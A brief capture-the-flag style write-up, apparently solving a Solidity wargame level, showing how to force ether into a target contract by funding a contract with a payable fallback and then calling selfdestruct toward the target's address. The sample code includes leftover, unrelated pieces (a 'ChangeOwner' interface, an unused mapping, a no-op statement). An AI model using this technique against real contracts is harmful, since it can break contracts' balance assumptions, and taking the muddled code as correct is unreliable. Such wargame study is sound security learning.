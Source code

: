 First send ethere via metamask to a new created contract with the self destruction function and a fallback function to send eth to a contract address.

Contract we want to send eth:
0xa345709138e86e5dbe125f361a86cf99b504525b

My contract with self destruction option:
0xe4594b09813bca18e1d450b99797ed597d9db6fe


contract ChangeOwner {
 function Delegation(address _delegateAddress) public;
}

contract ForceEther {
      mapping(address => uint) public contributions;

    function contribute() public payable {
    contributions[msg.sender] += msg.value;
    }
        constructor() {
        ChangeOwner Force = ChangeOwner(0xa345709138e86e5dbe125f361a86cf99b504525b);
        Force;
    }
  function() payable {

  }
  function selfDestruct(address _addr) {
    selfdestruct(_addr);
  }
}

When executing selfDestruct send add the address and the contract wil receive the funds